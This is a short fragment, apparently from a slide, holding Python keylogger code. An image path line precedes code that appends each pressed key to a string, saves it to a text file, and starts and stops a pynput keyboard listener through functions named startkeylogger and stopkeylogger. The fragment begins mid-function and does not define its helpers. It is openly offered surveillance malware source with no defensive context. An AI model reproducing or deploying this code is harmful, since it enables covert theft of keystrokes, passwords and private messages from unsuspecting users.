

key_strokes=key_strokes+str(key)
    update_txt_file(str(key_strokes))
def startkeylogger():
   global keylogger
   keylogger= keyboard.Listener(on_press=on_press,on_release=on_release)
   keylogger.start()
def stopkeylogger():
    global keylogger
    keylogger.stop()
    keylogger=None